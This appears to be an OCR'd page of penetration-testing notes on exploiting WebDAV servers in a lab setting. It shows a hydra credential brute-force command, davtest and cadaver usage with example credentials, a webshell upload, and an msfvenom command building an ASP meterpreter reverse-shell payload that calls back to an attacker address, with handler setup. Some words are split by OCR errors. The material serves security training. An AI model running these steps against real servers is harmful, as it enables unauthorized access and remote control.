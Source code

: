 -  We can perform a **brute-force** attack on the WebDAV server in order to
**identify legitimate credentials** that we can use for authentication.

``` bash
hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/m etasploit/common_passwords.txt 10.2.17.124 http-get /webdav/
```

-  After obtaining legitimate credentials, we can **authenticate** with the WebDAV server and **upload a malicious .asp payload** that can be used to execute arbitrary commands or obtain a reverse shell on the target.

### Tools to Exploit

#### [davtest](https://github.com/cldrn/davtest) 

> Used to scan, authenticate and exploit a WebDAV server.

**This program attempts to exploit WebDAV enabled servers by:**

- attempting to create a new directory (MKCOL)
- attempting to put test files of various programming langauges (PUT)
- optionally attempt to put files with .txt extension, then move to executable (MOVE)
- optionally attempt to put files with .txt extension, then copy to executable (COPY)
- check if files executed or were uploaded properly
- optionally upload a backdoor/shell file for languages which execute

Additionally, this can be used to put an arbitrary file to remote systems.

``` bash
davtest -url http://localhost/davdir -auth user:pass
``` 

#### [cadaver](https://github.com/notroj/cadaver) 

cadaver supports file upload, download, on-screen display, in-
place editing, namespace operations (move/copy), collection creation and
deletion, property manipulation, and resource locking on WebDAV servers.

``` bash
cadaver http://10.2.17.124/webdav 
dav:/webdav/> Username: bob 
dav:/webdav/> Password: CEVEPL 
dav:/webdav/> put /usr/share/webshells/asp/webshell. asp 
```

### Using Metasploit

##### 1. Create the payload manually:

``` bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.5.2 LPORT=1234 -f asp > shell.asp
# creation of the palyload 

service postgresql start & msfconsole 
# starting the database and msfconsole

msf6 > use multi/handler
msf6 > set payload windows/meterpreter/reverse_tcp
```
